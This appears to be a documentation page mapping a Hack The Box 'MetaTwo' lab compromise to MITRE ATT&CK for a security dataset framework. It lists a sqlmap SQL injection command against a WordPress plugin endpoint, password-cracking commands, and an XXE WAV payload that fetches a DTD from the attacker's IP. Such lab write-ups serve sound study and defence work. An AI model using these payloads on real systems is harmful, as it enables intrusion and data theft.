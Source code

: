 # Cyber4ML_Framework application in "MetaTwo" HTB machine

## Framework application details

|Documentation|MITRE ATT&CK|Network Analysis|Log Analysis|
|-|-|-|-|
|Yes|Yes|Yes|Yes|

|Attacker Level|Environment|VPN|Attacker IP|Victim IP|
|-|-|-|-|-|
|Average|Linux|Yes|10.10.16.17|10.10.11.186|

**Average:** The knowledge, behavior and attack-timing of the attacker is average.

## Documentation

Documentation of the attack: [MetaTwo Documentation](https://github.com/stevendamianakis/HackTheBox_Writeups/blob/main/Machines/MetaTwo/README.MD)

## MITRE ATT&CK mapping

Below, we map the attack to the MITRE ATT&CK Enterprise framework.

| Tactic | Technique | Subtechnique | Command/Script | CVE/CWE |
| - | - | - | - | - |
| Initial Access | Exploit Public-Facing Application | - | (1) | CVE-2022-0739/CWE-89 |
| Execution | Command and Scripting Interpreter | Unix Shell | (1) | CVE-2022-0739/CWE-89 |
| Credential Access | Brute Force | Password Cracking | (2), (3) | - |
| Initial Access | Valid Accounts | Local Accounts | - | - |
| Reconnaissance | Active Scanning | Vulnerability Scanning | (4) | - |
| Initial Access | Exploit Public-Facing Application | - | (5) | CVE-2021-29447/CWE-611 |
| Execution | Exploitation for Client Execution | Unix Shell | (5) | CVE-2021-29447/CWE-611 |
| Credential Access | Credentials from Password Stores | Password Managers | - | - |
| Privilege Escalation | Valid Accounts | Local Accounts | - | - |

#### Commands/Scripts
- (1)
```
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --data="action=bookingpress_front_get_category_services&_wpnonce=35b4fc273d&category_id=33&total_service=1" -p "total_service" --dbs
```
- (2)
```
john hashes --wordlist=rockyou.txt
``` 

- (3)
```
john -w=rockyou.txt gpg.john
```

- (4)
```
wpscan --url http://metapress.htb
```

- (5)
```
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM '"'"'http://10.10.16.17:4444/xxe_attack.dtd'"'"'>%remote;%init;%trick;]>\x00' > payload.wav
```

#### Alternative Commands/Scripts
- (2)
```
hashcat -m 400 -a 0 hashes rockyou.txt
```


## Network Analysis

Pcap file of the attack: [Capture File](https://github.com/stevendamianakis/Cyber4ML_Framework/blob/main/HackTheBox/MetaTwo/attack_capture.pcapng)

## Log Analysis
